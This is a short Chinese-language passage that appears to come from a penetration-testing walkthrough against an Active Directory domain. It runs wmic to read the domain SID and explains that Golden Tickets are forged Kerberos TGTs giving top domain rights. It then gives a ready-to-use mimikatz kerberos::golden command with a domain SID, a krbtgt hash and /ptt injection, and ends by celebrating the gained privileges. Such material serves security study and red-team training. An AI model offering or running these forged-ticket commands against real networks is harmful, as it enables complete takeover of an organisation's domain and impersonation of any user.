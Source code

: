 **用原生wmic获取域的sid**即可(下图上半部分是本机的sid，下半部分是域的sid)：

	wmic useraccount get name,sid

![](images/50.jpg)

**得到krbtgt用户的hash之后生成一张administrator的黄金票据**：

Golden Ticket（黄金票据）是通过伪造的TGT（Ticket Granting Ticket），因为只要有了高权限的TGT，那么就可以发送给TGS换取任意服务的TGS，可以说能够伪造黄金票据即有了域内的最高权限。

![](images/54.png)

忘记输入了 ```/ptt```,

	kerberos::golden /user:Administrator /domain:lmrsec.com /sid:S-1-5-21-4175578073-168413485-1140492047 /krbtgt:4f1f3dc469ef39126486ed369c3eb8dc /ptt

**成功拿到权限**！！！
